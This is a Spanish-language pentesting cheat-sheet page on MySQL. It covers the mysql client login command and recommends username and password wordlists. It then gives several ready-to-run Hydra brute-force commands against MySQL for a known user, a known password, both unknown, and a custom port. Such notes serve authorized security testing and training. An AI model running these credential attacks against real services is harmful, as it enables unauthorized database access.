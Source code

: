 # MySQL

{% hint style="info" %}
Para hacer login en una base de datos con mysql, ejecutamos el siguiente comando:

```bash
mysql -h 192.168.1.12 -u usuario -ppassword
```

ATENCION!! En el último parámetro, pondremos `-p` seguido de la contraseña sin espacios
{% endhint %}

## Fuerza Bruta

{% hint style="success" %}
A la hora de emplear diccionarios se recomiendan los siguientes:

### Usuarios

```
/usr/share/wordlists/metasploit/unix_users.txt
```

### Contraseñas

```
/usr/share/wordlists/rockyou.txt
```
{% endhint %}

### Hydra

Para poder hacer fuerza bruta con hydra al servicio de bases de datos, se pueden dar varios casos, en el caso de que tengas el usuario pero no la contraseña, deberás de usar un diccionario en este aspecto, por lo que el comando sería el siguiente

```
hydra -l user -P passwords.txt mysql://127.0.0.1 -t 15
```

En este caso con el parámetro `-l` le indicamos que sabemos el usuario y con el parámetro `-P` le indicamos la ruta donde esta el diccionario de contraseñas.

{% hint style="warning" %}
Puede que el servicio MySQL no se encuentre en el puerto predefinido, en ese caso deberemos de especificar a hydra el puerto en el que está, esto se hace con el parámetro `-s`

```
hydra -l user -P passwords.txt mysql://127.0.0.1 -t 15 -s 2000
```
{% endhint %}

En el caso contrario de que no sepas el usuario pero si la contraseña, los parámetros querían así:

```
hydra -L users.txt -p Password123 mysql://127.0.0.1 -t 15
```

En este comando, le indicamos la ruta del diccionario de usuarios con el parámetro en mayúscula y una contraseña en concreto con el parámetro en minúscula. En el otro posible caso de que no tengamos ni la contraseña ni el usuario, pondremos los dos parámetros en mayúscula pasándole como valor la ruta del diccionario tanto de usuarios como de contraseñas.

```
hydra -L users.txt -P passwords.txt mysql://127.0.0.1 -t 15
```

{% hint style="info" %}
El con el parámetro`-t` le indicamos el número de hilos que queremos emplear
{% endhint %}
